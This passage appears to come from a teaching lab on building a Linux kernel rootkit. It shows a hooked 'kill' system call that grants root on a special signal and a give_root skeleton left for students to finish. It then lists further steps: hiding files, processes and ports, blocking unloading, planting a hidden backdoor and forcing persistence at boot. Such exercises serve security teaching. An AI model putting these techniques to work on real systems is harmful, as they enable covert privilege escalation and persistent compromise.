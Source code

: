 Your "hacked" `kill` system call may look something like this:
```C
asmlinkage int
hacked_kill(pid_t pid, int sig)
{
	struct task_struct *task;

	switch (sig) {
		case SIGSUPER:
			give_root();
			break;
		default:
			return orig_kill(pid, sig);
	}
	return 0;
}
```

**Question:** implement the `give_root` function. See the skeleton bellow and check
the [`cred` data structure](https://elixir.bootlin.com/linux/v3.2/source/include/linux/cred.h#L116):
```C
void give_root(void)
{
    struct cred *newcreds;
    newcreds = prepare_creds();
    if (newcreds == NULL)
    	return;
    // TODO set the newcreds structure to give root privilege
    commit_creds(newcreds);
}
```

## Step 5: going further

We have just started our journey in building a complete rootkit. There is a lot
of extra functionality that you can explore. A few of them are listed bellow (in order of difficulty):

* hide memory consumption;
* ensure that your module cannot ever be unloaded (see [this](https://www.kernel.org/doc/htmldocs/kernel-hacking/routines-module-use-counters.html))
* hide directories/files starting with a given prefix ("hack" [`getdents64`](https://linux.die.net/man/2/getdents64) and [`getdents`](https://linux.die.net/man/2/getdents));
* hide processes (you should look at the [`task` data structure]()https://elixir.bootlin.com/linux/v3.2/source/include/linux/sched.h#L1224) flags and also explore how to remove entries from [`/proc`](https://tldp.org/LDP/Linux-Filesystem-Hierarchy/html/proc.html)).
* build a backdoor into your system that you hide with your rootkit;
* implement a simple way for you malware to interact with your rootkit from userspace;
* ensure your rootkit and your backdoor are always loaded at boot time (and make sure a user cannot change that);
* hide open ports;
* try to build a rootkit for a more recent version of the kernel. Is it harder? Why?
* etc...

There is a lot you can potentially do, if you have the time/will feel free to go crazy on this.
